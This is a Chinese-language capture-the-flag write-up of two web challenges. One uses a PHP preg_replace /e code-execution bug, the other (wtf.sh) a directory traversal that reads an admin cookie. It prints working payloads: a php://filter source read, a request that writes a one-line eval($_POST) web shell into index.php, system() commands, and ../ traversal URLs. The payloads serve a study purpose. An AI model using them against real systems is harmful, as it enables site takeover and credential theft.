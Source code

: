 可以去看看php里的正则用法), 把其当做php执行, 我们就在dst 参数里放要执行的PHP 代码```

2. 有了rce, 下一步是找flag, 写入一句话, 菜刀连接之后,看到根目录/下面有个奇怪的文件夹,查看源码,稳健
3. payload***
  - 
- 查看源码	

- ```php+HTML
  /index.php?page=php://filter/read=convert.base64-encode/resource=index.php
  ```

- X-Forwarded-For:127.0.0.1

-	/index.php?pat=/uncle/e&rep=phpinfo()&sub=uncleabc 
	
-	写入一句话	
	
​```php
	/index.php?pat=/uncle/e&rep=fputs(fopen(index.php,w),%3C?php%20eval($_POST%5B%5Bpass%5D%5D)?%3E);0&sub=uncleabc
​```

	其实可以不用写入一句话的, 使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。
	
	```
	rep=system("cd+s3chahahaDir/flag+%26%26+ls") 
	```
	
	注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.
```

​		

### csaw-ctf-2016-quals-wtf.sh-150 

```
可以看到响应里有关键词* bash *, 那么猜测是跟linux命令或者路径有关联.
先分析,一共分析出几个挖掘点:	

1. /profile.wtf?user= 

2. /post.wtf?post=

3. /reply.wtf?post= 首先排除,因为没有地方用来回显内容
	丢进bp里fuzzing一波 /profile.wtf?user=/../../../../../%2a	
	
4. %2a(就是编码后的*)可以列出当前目录内容
`继续分析, 进到/profile.wtf?user=../../../../../../../../../%2a  可以看到  ==> users/../../../../../../../../../bin <== ==>`

哦, 是从users目录跳出去的, 可以推测会为每个用户在users目录里新建一个文件(夹), 为了防止恶意遍历还做了混淆(可浏览查证/profile.wtf?user=/../users/%2a)

通过post传入文件名参数,缺少过滤导致可用../回退到上级目录,确认存在directory travelsal
	
	最后, 已经确定是目录遍历的情况下, 在第2点里, 试着查看users目录下的内容, 看到admin及其cookie.
	记录下来token,退出后导入cookie即可(导入cookie方法可以百度,可以F12进console调,也可以用chrome插件EDITTHISCOOKIE)
	
	#### payload:
	
	1. 看到admin的cookie	/post.wtf?post=../users   登录进profile得到前一半flag.
		```Flag: xctf{cb49256d1ab48803149e5ec49d3c29ca}	```https://blog.cindemor.com/post/ctf-fairy-1.html
		
	2. 查看另一半flag的线索
		a. /profile.wtf?user=../%2a
		b. 初始化的代码	/spinup.sh
```